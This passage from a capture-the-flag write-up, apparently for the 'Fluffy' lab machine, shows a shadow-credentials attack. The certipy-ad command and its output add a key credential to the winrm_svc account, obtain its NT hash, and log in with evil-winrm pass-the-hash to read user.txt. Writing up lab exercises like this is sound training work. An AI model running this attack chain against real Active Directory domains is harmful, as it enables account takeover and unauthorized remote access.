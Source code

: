 - Because SERVICE ACCOUNTS has GenericWrite permissions for accounts such as ca_svc, ldap_svc, winrm_svc, etc., it means that custom KeyCredentials (shadow certificates) can be added to these accounts.

## Shadow Credential

```bash
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303'  -account 'WINRM_SVC'  -dc-ip '10.10.11.69'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '5f3391a6-1fa0-c13f-9f4b-73cd3536412f'
[*] Adding Key Credential with device ID '5f3391a6-1fa0-c13f-9f4b-73cd3536412f' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '5f3391a6-1fa0-c13f-9f4b-73cd3536412f' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': <hidden>

[root@kali] /home/kali/Fluffy/PKINITtools (master)
❯ evil-winrm -i 10.10.11.69 -u 'winrm_svc' -H '<hidden>'
Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\winrm_svc\desktop> ls


Directory: C:\Users\winrm_svc\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/29/2025   7:52 AM             34 user.txt
```
